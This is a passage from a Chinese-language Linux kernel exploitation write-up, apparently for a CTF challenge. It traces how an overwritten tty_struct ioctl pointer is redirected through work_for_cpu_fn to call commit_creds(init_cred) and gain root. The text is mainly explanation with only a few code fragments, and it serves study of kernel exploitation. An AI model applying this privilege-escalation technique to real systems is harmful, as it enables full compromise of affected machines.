| **实现复杂度**    | 较高，需构造多阶段指令序列。       | 相对较低，核心是精确的偏移计算与数据布局。                                |
| **稳定性/通用性** | 受可用代码片段影响较大。           | 依赖特定内核函数的语义和内存布局，但思路具有启发性。                      |

### 7-4. `ioctl` 系统调用流程分析

本节将详细剖析在本次技术演示中，`ioctl` 系统调用在内核中的完整执行路径。理解从用户空间发起的请求如何经过虚拟文件系统、TTY子系统，最终触发预设的函数指针执行，是把握整个演示逻辑的关键。

#### 7-4-1. 调用流程详解

当研究程序执行 `ioctl(fd3, 0xdeadbeaf, 0xdeadbeaf)` 时，内核中将触发一系列函数调用，其完整路径如下：

1.  **系统调用入口**：用户空间的 `ioctl()` 库函数封装了对 `ioctl` 系统调用的请求，通过软中断或 `syscall` 指令陷入内核，对应的内核入口点为 `SyS_ioctl()` 或 `SYSC_ioctl()`。

2.  **虚拟文件系统（VFS）分发**：内核通过 `do_vfs_ioctl()` 开始处理此请求，进行通用的权限和参数检查。随后调用 `vfs_ioctl()` 函数，后者根据文件描述符 `fd3` 找到对应的 `struct file` 对象。对于字符设备文件，`vfs_ioctl()` 会调用该文件操作表中注册的 `unlocked_ioctl` 或 `compat_ioctl` 方法。在本例中，由于 `fd3` 对应一个伪终端主设备，其文件操作指向TTY子系统，因此会调用 `tty_ioctl()` 函数。

3.  **TTY子系统通用处理**：`tty_ioctl()` 是TTY设备的通用 `ioctl` 处理函数。它负责解析大量的TTY特定命令（如设置波特率、窗口大小等）。对于许多需要驱动层实现的命令，或者无法在通用层处理的命令，它会将控制权传递给底层驱动。

4.  **调用驱动特定操作**：在 `tty_ioctl()` 中，对于需要驱动处理的命令，会通过 `tty->ops->ioctl(tty, file, cmd, arg)` 来调用终端驱动注册的函数。**此调用是整个流程的核心转折点**。

5.  **控制流重定向**：在本次技术演示构建的环境中，`tty_struct` 对象内的 `ops->ioctl` 指针已被修改为内核函数 `work_for_cpu_fn` 的地址。因此，当内核执行到此步骤时，控制流并未跳转到真正的设备驱动函数，而是跳转到了 `work_for_cpu_fn`。

6.  **执行 `work_for_cpu_fn` 逻辑**：根据x86_64调用约定，`tty->ops->ioctl` 被调用时，其第一个参数（`RDI` 寄存器）是 `tty` 指针，即指向当前 `tty_struct` 对象内核地址（`fake_tty_addr`）的指针。`work_for_cpu_fn` 函数接收此参数作为其 `struct work_struct *work` 参数。
    - 该函数通过 `container_of` 宏，利用 `work` 指针计算出外层 `struct work_for_cpu` 结构体（`wfc`）的地址。
    - 由于内存布局已被预先精心构造，`wfc->fn` 成员指向 `commit_creds` 函数，`wfc->arg` 成员指向 `init_cred` 凭证地址。
    - 因此，`work_for_cpu_fn` 执行 `wfc->fn(wfc->arg)` 的效果等同于执行 **`commit_creds(init_cred)`**，从而完成了进程权限状态的变更。

7.  **返回与恢复**：函数执行完毕后，控制流沿调用链原路返回至用户空间。随后，演示程序会调用 `write(fd2, origin_tty, …)` 将备份的原始 `tty_struct` 数据写回，以恢复内核对象的状态，确保系统后续稳定运行。

#### 7-4-2. 调用流程图

以下Mermaid流程图直观地展示了上述调用路径，并清晰区分了正常执行流程与本次技术演示所构建的特殊执行流程：



**流程说明**：

- **绿色框**：表示流程起点，即用户空间对 `ioctl` 的调用。
- **红色框**：表示**关键的分发点**，即对 `tty->ops->ioctl` 函数指针的解引用。此指针的值决定了后续整个控制流的走向。
- **蓝色框**：表示分支判断点，清晰地展示了系统在正常情况与本次特定技术演示场景下不同的执行路径。
- **橙色框**：描绘了演示路径的核心阶段。控制流被重定向至合法的内核函数 `work_for_cpu_fn`，该函数按照其固有逻辑解释传入的参数并执行相应的函数指针。
- **紫色框**：表示演示的最终目标，即通过执行合法的内核权限管理函数完成状态变更。

### 7-5. 总结

本章分析的方法展示了一种侧重于数据流控制的内核级技术研究思路。它放弃了直接控制非预期指令序列的执行，转而寻求对内核**现有执行逻辑**的精准引导。通过使被修改的内核对象（`tty_struct`）在特定上下文（`work_for_cpu_fn`中）被重新解释为另一个合法对象（`work_for_cpu`），并利用该对象语义中预设的函数指针调用机制，研究者以一种完全遵循内核调用规范的方式演示了权限变更。这种技术对基于控制流完整性的防御机制提出了不同维度的思考，因为它并未违背基本控制流规则，而是通过操控数据流来影响合法控制流的行为。最后，通过恢复原始内核对象状态，确保了系统后续操作的稳定性，体现了完整的技术研究流程。

### 7-6. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 参考

https://github.com/BinRacer/pwn4kernel/tree/master/src/UAFwithCred
https://github.com/BinRacer/pwn4kernel/tree/master/src/UAFwithTTY
https://github.com/BinRacer/pwn4kernel/tree/master/src/UAFwithTTY2
https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#例题：CISCN-2017-babydriver
